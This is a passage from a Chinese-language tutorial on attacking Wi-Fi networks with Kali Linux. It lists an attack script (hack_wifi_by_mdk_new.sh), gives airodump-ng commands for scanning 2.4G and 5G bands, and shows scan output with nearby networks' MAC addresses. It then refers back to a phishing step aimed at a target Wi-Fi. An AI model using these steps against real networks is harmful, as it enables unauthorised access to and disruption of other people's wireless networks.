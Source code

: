 7. 查看攻击脚本
```shell
ll
```
 *********************************************************
总用量 12
-rw-r--r-- 1 kali kali 10868  8月 27 16:58 hack_wifi_by_mdk_new.sh

![img_43.png](image/img_43.png)
 ********************************************************

8. 扫描一下WiFi信号,, 差不多了就键盘按下 [Ctrl + c] 组合键 结束扫描
```shell
[2.4G]  这是扫描2.4G信号的命令
airodump-ng wlan0mon --band bg
[5G]  这是扫描5G的
airodump-ng wlan0mon --band a
```
 *******************************************************
```shell
CH 14 ][ Elapsed: 12 s ][ 2022-08-27 18:11
BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
5C:DE:34:AE:D3:CD  -72        1        1    0   6  540   WPA2 CCMP   PSK  CMCC-fkVY
34:78:39:D8:86:90  -49        7        0    0   5  130   WPA2 CCMP   PSK  CU_NEFe
34:CE:00:2C:B9:A0  -59        8       33    0  10  130   WPA2 CCMP   PSK  🍇
```
 ******************************************************
<font color=#FF0000>**找到你【破解步骤1】钓鱼的那个WiFi的MAC地址并复制下来**</font>

![img_44.png](image/img_44.png)
